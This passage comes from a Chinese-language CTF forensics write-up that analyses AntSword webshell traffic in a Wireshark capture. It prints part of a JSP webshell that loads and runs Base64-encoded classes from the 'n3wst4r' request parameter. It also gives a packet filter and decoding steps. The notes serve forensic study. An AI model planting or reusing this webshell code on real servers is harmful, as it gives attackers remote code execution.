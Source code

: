 ```jsp
    } catch (Exception e) {
        Class clazz = Class.forName("java.util.Base64");
        Object decoder = clazz.getMethod("getDecoder").invoke(null);
        return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
    }
}

%>
<%
    String cls = request.getParameter("n3wst4r");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

​		这里我们可以看到Webshell密码为：n3wst4r

​		题解中写到这个密码也可在后续的请求包中得到，这里我没有找到。



​		蚁剑流量分析中，对于蚁剑响应流量的解密就是Base64解密即可，需要去掉响应首尾拼接的干扰字符。 



在wireshark中如何查找post请求 /yesec.jsp的流量包

要在Wireshark中查找特定的POST请求，您可以按照以下步骤进行操作：

1. 打开Wireshark并加载捕获文件。

2. 在过滤框中输入过滤条件来过滤出HTTP POST请求。您可以使用以下过滤器来查找特定的POST请求：

   ```
   http.request.method == "POST" && http.request.uri contains "/yesec.jsp"
   ```

   按下Enter键或单击过滤按钮以应用过滤器。

   Wireshark将仅显示包含POST方法和包含“/yesec.jsp”字符串的URI的HTTP请求。

   通过这种方式，您可以轻松地找到特定的POST请求并查看与该请求相关的流量包。

   

​		对于蚁剑请求流量的分析需要删掉首部前两个字符，例如在tcp.stream eq 39的请求中我们提取出参数：(它为什么知道是tcp.stream eq 39)？？

![image-20240314125604359](../typora-user-images/image-20240314125604359.png)

​		因为这里是POST请求 yesec.jsp文件，也就是刚才上传的shell.war文件中的内容，所以我们需要知道这里请求参数的信息。内容的话就是下面的那一长串，base64解密，记住蚁剑请求流量的分析需要删除首部前两个字符。并且这里我们也可以看到webshell的密码为 n3wst4r

解码部分内容如下：

![image-20240314130030812](../typora-user-images/image-20240314130030812.png)

这串指令是跳转到tomcat目录，执行env命令，后面有两个打印参数和当前目录pwd
